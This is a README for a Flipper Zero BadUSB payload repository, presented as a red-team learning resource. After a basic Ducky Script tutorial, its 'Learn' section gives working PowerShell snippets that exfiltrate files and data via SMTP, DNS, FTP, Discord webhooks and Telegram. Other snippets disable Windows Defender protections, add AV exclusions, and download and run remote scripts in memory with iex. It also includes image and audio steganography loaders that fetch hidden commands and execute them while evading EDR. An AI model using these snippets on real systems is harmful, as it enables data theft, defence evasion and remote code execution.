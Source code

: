 <div align="center">

  <img src="assets/logo.png" alt="logo" width="200" height="auto" />
  <h1>Flipper Zero BADUSB Repo</h1>
  
  <p>
    A Collection of Flipper Zero BADUSB Payloads
  </p>
</div>

<br />

<!-- Table of Contents -->
# Table of Contents 📒

- [About the Project](#about-the-project)
  * [Rubber Ducky](#rubber-ducky)
  * [Shop](#shop)
- [Getting Started](#getting-started)
  * [Variables](#variables)
  * [Installation](#installation)
  * [Deployment](#deployment)
  * [Learn](#learn)
- [Roadmap](#roadmap)
- [Contact](#contact)
- [Acknowledgements](#acknowledgements)

  

<!-- About the Project -->
## About the Project
This Repository is to assist others in their pentesting adventures in addition to helping those get their feet wet for Ducky Scripts 🐥

<!-- Rubber Ducky -->
## Rubber Ducky
A USB Rubber Ducky is a keystroke injection tool that looks like a USB flash drive. When plugged in, it executes pre-programmed scripts that mimic keyboard input, allowing for quick automation of tasks such as penetration testing and security assessments.

## Shop
<details>
  <summary>Hak5</summary>
  <ul>
    <li><a href="https://shop.hak5.org">Hak5 Shop</a></li>
    <li><a href="https://shop.hak5.org/products/usb-rubber-ducky">Rubber Ducky</a></li>
    <li><a href="https://payloadhub.com/blogs/payloads">Hak5's Payload Hub</a></li>
    <li><a href="https://docs.hak5.org/hak5-usb-rubber-ducky">Official Ducky Script Documentation</a></li>
  </ul>
</details>

<details>
  <summary>Flipper Zero</summary>
  <ul>
    <li><a href="https://shop.flipperzero.one">Flipper Zero Shop</a></li>
    <li><a href="https://docs.flipper.net/bad-usb">Flipper Zero's Badusb Documentation</a></li>
  </ul>
</details>

<details>
<summary>Digispark</summary>
  <ul>
    <li><a href="https://www.amazon.com/digispark/s?k=digispark">Amazon Digispark</a></li>
    <li><a href="https://blog.spacehuhn.com/badusb-digispark">Digispark Badusb</a></li>
    <li><a href="https://github.com/CharlesTheGreat77/DigiPass">Digispark Badusb Payloads</a></li>
  </ul>
</details>

<details>
<summary>External Flipper Resources</summary>
  <ul>
    <li><a href="https://github.com/jamisonderek">Mr. Derek Jamison</a></li>
  </ul>
</details>

<!-- Prerequisites -->
## Prerequisites
This project (and the Flipper Zero as a whole) uses *Ducky Script version 1*. Additionally, most payloads are tested in a *Windows 10* environment. Further testing will be needed on *Windows 11* environment security standards.

<!-- Getting Started -->
## Getting Started 
This is a VERY brief explanation of ducky script in my own words. One may refer to this <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">link</a> if in doubt of supported commands.
<details>
    <summary>REM</summary>
  <ul>
    <li>REM is used as a comment, and does not perform ANY keystroke injection. It got the name REM from the word REMark (remark).</li>
  </ul>
  <pre><code>REM This is a comment</code></pre>
</details>

<details>
    <summary>STRING</summary>
  <ul>
    <li>STRING injects a series of keystrokes. Interpreting lowercase, uppercase, etc. automatically with Flipper Zero's implmentation.</li>
  </ul>
  <pre><code>STRING I Love You!
ENTER</code></pre>
  Output:
  <pre><code>I Love You!</code></pre>
  <ul>
    <li>we'll cover the ENTER command right after..</li>
  </ul>
</details>

<details>
    <summary>ENTER</summary>
  <ul>
    <li>ENTER does just that.. presses the return (enter) button! This is one of many supported commands which can be found <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">here</a>!</li>
  </ul>
  <pre><code>STRING I Love You!
ENTER</code></pre>
  Output:
  <pre><code>I Love You!</code></pre>
</details>

<details>
    <summary>DELAY</summary>
  <ul>
    <li>DELAY creates a momentary pause in miliseconds. This is VERY useful when keystrokes are too fast for the target computer to interpret. If your working payload is failing.. this is probably the cause (ADD MORE DELAY).</li>
  </ul>
  <pre><code>STRING hey!
ENTER
DELAY 1000
STRING how are you?
ENTER
</code></pre>
  Output:
  <pre><code>hey!
[delays for 1 second]
how are you?</code></pre>
</details>

<details>
    <summary>Additional Commands</summary>
  <ul>
    <li>Modifiers: <pre><code>CTRL
CONTROL
SHIFT
ALT
GUI
WINDOWS</code></pre></li>
    <li>Combos: <pre><code>CTRL-ALT
CTRL-SHIFT
ALT-SHIFT
ALT-GUI
GUI-SHIFT</code></pre></li>
    <li>Cursors: <pre><code>DOWNARROW
DOWN
LEFTARROW
LEFT
RIGHTARROW
RIGHT
UPARROW
UP</code></pre></li>
    <li>Control and navigation: <pre><code>ENTER, BREAK, PAUSE, CAPSLOCK, DELETE, BACKSPACE, END, ESC, ESCAPE, HOME, INSERT, NUMLOCK, PAGEUP, PAGEDOWN, PRINTSCREEN, SCROLLOCK, SPACE, TAB, MENU, APP, SYSRQ</code></pre></li>
    <li>Functions: <pre><code>F1, F2, F3, F4, F5, F6, F7, F8, F9, F10, F11, F12</code></pre></li>
  </ul>
</details>

<details>
    <summary>Your first payload (Windows)</summary>
  <ul>
    <li>Lets create a simple payload to open notepad and display.</li>
  </ul>
  <pre><code>GUI r
STRING notepad.exe
ENTER
DELAY 2000
STRING hello world!
ENTER
</code></pre>
  Output: Opens the windows run box with GUI r [GUI is a modifier], and types in notepad.exe, which opens notetpad and types:
  <pre><code>hello world!</code></pre>
  <ul>
    <li>Again, you can find modifiers, combos, cursors, etc. <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">here</a></li>
  </ul>
</details>



<!-- Variables -->
### Variables
To run most scripts, one must populate the variables inside the payload (.txt) file. All variables will be clearly stated with ```%CHANGE_ME%```

Examples:
```
discord_webook = %CHANGE_ME%
```
```
smtp_server = %CHANGE_ME%
```

<!-- Download -->
# Installation
<details>
    <summary>Install BADUSB Repository 🖥️</summary>
    <details>
        <summary>Windows Install 🪟</summary>
            <ul>
                <li>Download the zip and extract the contents in your preffered directory.</li>
            </ul>
            <ul>
                <img src="assets/download.png" alt="logo" width="auto" height="auto" />
            </ul>
    </details>
    <details>
        <summary>Linux Download 🖥️</summary>
        <ul>
            <li>In any terminal:</li>
            <pre><code>git clone https://github.com/CharlesTheGreat77/BADUSB</code></pre>
        </ul>
    </details>

</details>


<!-- Deployment -->
## Deployment

To deploy the payloads, one must edit the payload (if required) by changing the variables accordingly in the *.txt* file(s) of choice. 

Copy the payloads in the badusb folder in the flipper zero BADUSB directory.


<!-- Payload Development -->
## Learn
These are brief powershell concepts which covers just about whatever you need for red teaming.

<!-- Exfil Methods -->
<details>
    <summary>Exfiltration Methods</summary>
  <ul>
    <li>SMTP and/or SMS</li>
  </ul>

```powershell
$hello_world = "Hello World!" # exfiltrate data
$send_to = "%SEND_TO%" # could be the email used below, another email, or a phone number
$smtp_server = "%SMTP_SERVER%" # smtp.gmail.com
$smtp_username = "%SMTP_USERNAME%" # gmail account [example@gmail.com]
$token = "%TOKEN%" # gmail token/smtp password
$SMTPInfo = New-Object Net.Mail.SmtpClient($smtp_server, 587); $SMTPInfo.EnableSsl = $true; $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential($smtp_username, $token); $ReportEmail = New-Object System.Net.Mail.MailMessage; $ReportEmail.From = $smtp_username; $ReportEmail.To.Add($send_to); $ReportEmail.Body = "Flipper Report: $hello_world"; $SMTPInfo.Send($ReportEmail)
```
Phone Number Setup for *send_to* variable:
    
    Format: <phonenumber>@smsgateway
    example: 9992221111@tmomail.net
SMS Gateways for Service Providers can be found <a href="https://www.fbbbrown.com/help-faq/app-help/runsafe/list-of-mobile-carrier-gateway-addresses/">here</a>!

  <ul>
    <li>File Transfer with curl:</li>
  </ul>

```powershell
curl.exe -F "file1=@filename.txt" <end_point>
```
  <ul>
    <li>HTTP POST request:</li>
  </ul>

```powershell
$content = Get-Content %FILE_TO_EXFIL% # output.txt
Invoke-WebRequest -Uri http://<http_server> -Method POST -Body $content
```
Exfiltrat files and send the contents via a HTTP post request.

  <ul>
    <li>FTP File Upload:</li>
  </ul>

```powershell
$fileName = "%FILENAME%"
$ftpUrl = "%FTP_URL%"
$ftpPassw = "%FTP_PASSWORD%"
$sampleData = "Sample data for exfiltration test"
Set-Content -Path $fileName -Value $sampleData
$creds = Get-Credential -Credential $ftpPassw
Invoke-WebRequest -Uri $ftpUrl -Method Put -InFile $fileName -Credential $creds
```
Upload files via FTP to an existing FTP server
  <ul>
    <li>Exfiltrate over DNS:</li>
  </ul>

```powershell
$dnsServer = "%DNS_SERVER%"
$exfiltratedData = "String of exfiltrated data"
$chunkSize = 63 # look at the sizes of record types
$encodedData = [System.Text.Encoding]::UTF8.GetBytes($exfiltratedData)
$encodedData = [Convert]::ToBase64String($encodedData)
$chunks = $encodedData -split "(.{$chunkSize})"
foreach ($chunk in $chunks) {
    $dnsQuery = $chunk + "." + $dnsServer
    Resolve-DnsName -Name $dnsQuery
    Start-Sleep -Seconds 5
}
```
  <ul>
    <li>Exfiltrate File using curl to Discord Webhook:</li>
  </ul>

```
$discordWebhook = '%WEBHOOK%'
curl.exe -F "file1=@%FILENAME%" $discordWebhook
```

  <ul>
    <li>Exfiltrate data to Discord Webhook:</li>
  </ul>

```powershell
$discordWebhook = "%WEBHOOK%"
$content='This is exfiltrated data'; $payload=[PSCustomObject]@{ content=$content }
Invoke-RestMethod -ContentType "Application/Json" -Uri $webhook -Method Post -Body ($payload | ConvertTo-Json)
```

  <ul>
    <li>Exfiltrate data to Telegram:</li>
  </ul>

```powershell
$id = "%CHAT_ID%"
$token = "%TELE_TOKEN%"
$data = "Exiltrated data example"
$URL = "https://api.telegram.org/bot{0}" -f $token
$MessageToSend = New-Object psobject; $MessageToSend | Add-Member -MemberType NoteProperty -Name 'chat_id' -Value $id
$MessageToSend | Add-Member -MemberType NoteProperty -Name 'text' -Value "$data"
Invoke-RestMethod -Method Post -Uri ($URL +'/sendMessage') -Body ($MessageToSend | ConvertTo-Json) -ContentType "application/json"
```


<!-- Execution Policy/AV Stuff -->
</details>

<details>
    <summary>ExecutionPolicy/AV</summary>
    <ul>
        <li>Disable Real Time Monitoring, Behavior Monitoring etc:</li>
    </ul>

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true -DisableScriptScanning $true -DisableBehaviorMonitoring $true -DisableIOAVProtection $true -DisableIntrusionPreventionSystem $true
```

Admin Privileges is Required.

```powershell
powershell "Start-Process powershell -verb runas"
```

Can open powershell as admin.

  <ul>
    <li>Set Exclusive Path:</li>
  </ul>

```powershell
Add-MpPreference -ExclusionPath %PATH% ; Set-ExecutionPolicy unrestricted
```
To restrict the path back to normal:
```powershell
Remove-MpPreference -ExclusionPath %PATH% ; Set-ExecutionPolicy restricted
```
</details>

<!-- Execution -->
<details>
    <summary>Execution Tactics</summary>
    <ul>
        <li>Execute File from URL in memory:</li>
    </ul>

```powershell
iex(New-Object Net.WebClient).DownloadString('%URL_TO_PS1_FILE%')
```

</details>
<!-- Steganography -->
<details>
    <summary>Steganography (with Python)</summary>
    <p>Steganography is hiding secret information within ordinary-looking files like images or documents. Red teamers use it to sneak sensitive data or commands past security defenses. They can embed data in files to avoid detection, extract information stealthily from networks, hide malware, or verify file authenticity. It helps simulate realistic attacks and test how well defenses can detect covert activities.</p>

Prerequisites For The Methods Below:
| Prerequisite | Version |
|--------------|---------|
| Python       |  <=3    |

```
pip3 install Pillow numpy
```

  <ul>
    <li>LSB Encoding Powershell commands in an image:</li>
  </ul>

This technique encodes our powershell commands into specific regions of an image by replacing the LSB of the RGB color channels to our powershell command.


Here's a python implementation to encode our command:
<!-- LSB Encoder -->
```python
from PIL import Image
import numpy as np

def encode_data_in_region(image_path, data, region):
    img = Image.open(image_path)
    binary_data = ''.join(format(ord(char), '08b') for char in data)
    if len(binary_data) > region[2] * region[3] * 3:
        raise ValueError("Data too large to be encoded in the specified region")
    img_array = np.array(img)
    y_start, x_start, height, width = region
    binary_data_iter = iter(binary_data)
    for y in range(y_start, y_start + height):
        for x in range(x_start, x_start + width):
            if len(binary_data) == 0:
                break
            pixel = img_array[y, x]
            for i in range(3):
                try:
                    bit = int(next(binary_data_iter))
                except StopIteration:
                    bit = 0  # pad wit 0's
                pixel[i] = (pixel[i] & 0xFE) | bit # clear RGB color channel, replace with LSB bit value
                encoded_img = Image.fromarray(img_array)
    return encoded_img

# Usage
image_path = '%FILEPATH%'
secret_data = "whoami"
region_to_encode = (100, 100, 50, 50)  # Define the region as (y_start, x_start, height, width)
encoded_image = encode_data_in_region(image_path, secret_data, region_to_encode)
encoded_image.save('encoded_image.png')
```

This encodes a string in an image using LSB encoding at specific regions ```(100, 100, 50, 50)``` to hide the commands within the image for execution. It then outputs the encoded image to a png file.

We can now **post** or **host** the encoded image for the target machine to download.

1. Create a github repository
2. Host in locally using python server.http
3. External file sharing providers

<!-- LSB Decoder -->
Lets now decode the commmand in the image using powershell and execute:
```powershell
$url = %URL_TO_IMAGE%
$imagePath = encoded_image.png
# download encoded image
$webClient = New-Object System.Net.WebClient
$webClient.DownloadFile($url, $imagePath)

Add-Type -AssemblyName System.Drawing

try {
    $imageBytes = [System.IO.File]::ReadAllBytes($imagePath)
    $memoryStream = New-Object System.IO.MemoryStream
    $memoryStream.Write($imageBytes, 0, $imageBytes.Length)
    $memoryStream.Seek(0, 'Begin') | Out-Null

    $image = [System.Drawing.Image]::FromStream($memoryStream)
    # regions we set in the encoder
    $region = New-Object System.Drawing.Rectangle(100, 100, 50, 50)

    $bitmap = New-Object System.Drawing.Bitmap($image)

    $decodedData = ""
    for ($y = $region.Top; $y -lt ($region.Top + $region.Height); $y++) {
        for ($x = $region.Left; $x -lt ($region.Left + $region.Width); $x++) {
            $color = $bitmap.GetPixel($x, $y)
            # Extract the lsb from each color channel
            $bit = $color.R -band 1
            $decodedData += $bit
            $bit = $color.G -band 1
            $decodedData += $bit
            $bit = $color.B -band 1
            $decodedData += $bit
        }
    }

    $paddingLength = 8 - ($decodedData.Length % 8)
    if ($paddingLength -ne 8) {
        $decodedData += '0' * $paddingLength
    }
    $decodedMessage = ""
    for ($i = 0; $i -lt $decodedData.Length; $i += 8) {
        $byte = [Convert]::ToByte($decodedData.Substring($i, 8), 2)
        $decodedMessage += [char]$byte
    }

    $decodedMessage = $decodedMessage -creplace "[^\x20-\x7E]", ""
    Write-Host $decodedMessage # output command
}
catch {
    Write-Host "Error: $_"
}
```
**Note** the url path, after uploading the encoded image to your file sharing provider, copy & paste the **direct** url to your encoded file inside the decoders ```$url``` variable.

Next we can upload our decoder file as a text file to easily grab the contents of the file for it to download the image, decode, and execute!

OR

We can convert this existing decoder to a *Ducky Script*, update the ```$url``` variable to where your audio file is stored and call it a day!

Executing on a target machine would look like this when saving the decoder to a file sharing website:
```powershell
iex(iwr %download_to_decoder.txt%).Content | iex
```
Issues with this technique is uploading to external file sharing providers, as they may *modify/compress* the file upon upload, which creates an issue with our existing decoding process.

<!-- Spread Spectrum Encoding -->
  <ul>
    <li>Spread Spectrum encoding:</li>
  </ul>
In this Technique, we'll convert the commands into binary and encode it into an audio file. By adjusting the amplitude for each bit (0/1), we can encode our commands in the audio without distoring the sound.


Heres a python implementation to encode our command:
```python
import wave
import numpy as np

def spread_spectrum_audio_encode(audio_path, message):
    with wave.open(audio_path, 'rb') as audio_file:
        audio_params = audio_file.getparams()
        audio_frames = audio_file.readframes(audio_params.nframes)
    audio_data = np.frombuffer(audio_frames, dtype=np.int16)
    
    binary_message = ''.join(format(ord(char), '08b') for char in message)
    message_length = len(binary_message)
    
    watermarked_audio_data = audio_data.copy()
    for i in range(message_length):
        if binary_message[i] == '1':
            watermarked_audio_data[i] += 100  # Increase amplitude for '1'
        else:
            watermarked_audio_data[i] -= 100  # Decrease amplitude for '0'
    
    with wave.open('watermarked_audio.wav', 'wb') as watermarked_audio_file:
        watermarked_audio_file.setparams(audio_params)
        watermarked_audio_file.writeframes(watermarked_audio_data.tobytes())

# Usage
audio_path = '%FILEPATH%.wav'
message = "whoami"
print(f'[*] Length of Message: {len(message)}') # remember length of message
spread_spectrum_audio_encode(audio_path, message)
```
This will encode our command ```whoami``` in a newly created audio file called ```watermarked_audio.wav```. *Take note* of our message length (length: ```6```).


Much like our LSB technique, we can upload or host our newly encoded audio file for our target machine to download.

Lets decode the audio file in powershell and execute:
```powershell
$url = "%URL_TO_AUDIO_FILE%"
# INPUT the length of MESSAGE!!
# $length = 6 [whoami = 6]
$length = 6 # edit this base on message length

function Decode-SpreadSpectrumAudio {
    param (
        [byte[]]$audioBytes,
        [int]$messageLength
    )
    try {
        $extractedMessage = ""
        for ($i = 44; $i -lt ($messageLength * 2) + 44; $i += 2) {
            # conv two bytes to a 16-bit signed int
            $sample = [BitConverter]::ToInt16($audioBytes, $i)

            if ($sample -gt 0) {
                $extractedMessage += "1"
            }
            else {
                $extractedMessage += "0"
            }
        }
        $decodedMessage = ""
        for ($i = 0; $i -lt $extractedMessage.Length; $i += 8) {
            $binarySubstring = $extractedMessage.Substring($i, 8)
            $charCode = [Convert]::ToInt32($binarySubstring, 2)
            $decodedMessage += [char]$charCode
        }
        return $decodedMessage
    }
    catch {
        Write-Host "Error: $_"
    }
}

$messageLength = $length * 8
$req = (Invoke-WebRequest -Uri $url -Method Get -UseBasicParsing).Content
$decodedMessage = Decode-SpreadSpectrumAudio -audioBytes $req -messageLength $messageLength
"$decodedMessage"
```

**Note** the url path, after uploading the encoded audio to your file sharing provider, copy & paste the **direct** url to your encoded file inside the decoders ```$url``` variable.

Next we can upload our decoder file as a text file to easily grab the contents of the file for it to download the audio, decode, and execute!

OR

We can convert this existing decoder to a *Ducky Script*, update the ```$url``` variable to where your audio file is stored and the length of your powershell command, and call it a day!

Executing this with the first option above looks like such:
```powershell
iex(iwr %URL_TO_DECODER.txt%).Content | iex
```

When using steganography as a means of execution or exfiltration, it's best to familiarize yourself with the documents, attachments, etc. that are common in the environment one is pentesting. Additionally, downloading images or audio files from suspicious URLs or the images itself contain odd graphics or other means of content is a huge red flag. Be wise on the images or audio files in use to keep a low profile on EDR solutions etc.

These techniques can be found in another repository of mine <a href="https://github.com/CharlesTheGreat77/BadSteganography">here</a>.
</details>

<!-- Utilities -->
<details>
    <summary>Utilities</summary>
    <ul>
        <li>Get contents of file to a variable:</li>
    </ul>

```powershell
$content = [IO.File]::ReadAllText("%FILEPATH%");
```
OR
```powershell
$content = [System.IO.File]::ReadAllLines("%FILEPATH%")
```
```powershell
$content = cat %FILEPATH%
```
```powershell
$content = Get-Content -Path %FILEPATH%
```
```powershell
$reader = [System.IO.StreamReader]::new("%FILEPATH%")
try {
    $content = $reader.ReadToEnd()
} finally {
    $reader.Close()
}
```
</details>

<!-- Roadmap -->
## Roadmap

* [ ] Update Learn section in README
* [ ] Update filesystem hierarchy
* [ ] Update Payload list

<!-- Contact -->
## Contact

Dicord: DoobTheGoober

Projects: [github](https://github.com/CharlesTheGreat77)


<!-- Acknowledgments -->
## Acknowledgements
I want to give some honor to specific individuals regardless of contribution for payload creation or sheer knowledge and motivation!

 - [Rocket God](https://github.com/RocketGod-git)
 - [Kavitate](https://github.com/Kavitate)
 - [Derek Jamison](https://github.com/jamisonderek)
 - [Redd](https://github.com/InfoSecREDD)
